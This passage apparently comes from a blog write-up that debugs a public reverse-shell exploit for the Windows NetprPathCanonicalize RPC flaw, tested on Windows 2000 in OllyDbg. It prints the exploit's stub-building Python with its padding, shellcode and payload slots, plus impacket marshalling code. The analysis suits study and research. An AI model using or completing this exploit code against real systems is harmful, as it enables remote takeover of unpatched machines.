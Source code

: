 So it is a reverse shell payload as it claims to be! So what on earth could be going wrong? I followed the execution through to the end in Ollydbg and a Windows 2000 machine I managed to wangle from [2]  (They're keeping a load of old OSs as disk images, useful!). What I found was slightly unexpected, the exploit was causing a crash when the target attempted to execute a seemingly arbitrary location in the padding of the payload, somehow the Debasis Mohanty payload is misaligned. 

```python
self.__stub='\x01\x00\x00\x00' #I believe these first 2 lines are to do with marshalled parameters.
self.__stub+='\xd6\x00\x00\x00\x00\x00\x00\x00\xd6\x00\x00\x00' 
self.__stub+=shellcode
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41' #EIP lands somewhere in this sea of \x41s
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41' #resulting in a crash
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41' 
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x41\x41\x41\x41\x41\x41\x41\x41'
self.__stub+='\x00\x00\x00\x00'
self.__stub+='\x2f\x00\x00\x00\x00\x00\x00\x00\x2f\x00\x00\x00'
self.__stub+=payload
self.__stub+='\x00\x00\x00\x00' #I believe from here on is also to do with marshalled parameters.
self.__stub+='\x02\x00\x00\x00\x02\x00\x00\x00'
self.__stub+='\x00\x00\x00\x00\x02\x00\x00\x00'
self.__stub+='\x5c\x00\x00\x00\x01\x00\x00\x00'
self.__stub+='\x01\x00\x00\x00'
```

I decided to resolve this issue by reverse engineering a working payload, the one contained in metasploit, which I will document below. 

First, I have another small quibble with the payload. There seems to be a clear attempt to marshall the additional parameters required for the NetprPathCanonicalize call indicated in the listing above, unfortunately though it does so directly in hexadecimal rather than use the impacket library. I agree that the impacket library for MSRPC is about as unusable as it gets, but I thought I would give my best attempt at marshalling arguments properly. I dug pretty deep into the python files and found an example of marshalling parameters, srvsvc.py.

```python
class SRVSVCNameCanonicalize(Structure):
    opnum = 34
    alignment = 4
    structure = (
       ('RefID','<L&ServerName'),
       ('ServerName','w'),
       ('Name','w'),
       ('OutbufLen','<H'),
       ('NameType','<H'),
       ('Flags','<H')
    )
```

and

```python
def NetprNameCanonicalize(self, serverName, name, bufLen, nameType):
      NameCReq = SRVSVCNameCanonicalize()
      NameCReq['ServerName'] = (serverName+'\x00').encode('utf-16le')
      NameCReq['Name'] = (name+'\x00').encode('utf-16le')
      NameCReq['OutbufLen'] = bufLen
      NameCReq['NameType'] = nameType
      NameCReq['Flags'] = 0x0
      data = self.doRequest(NameCReq, checkReturn = 1)
      return data
```
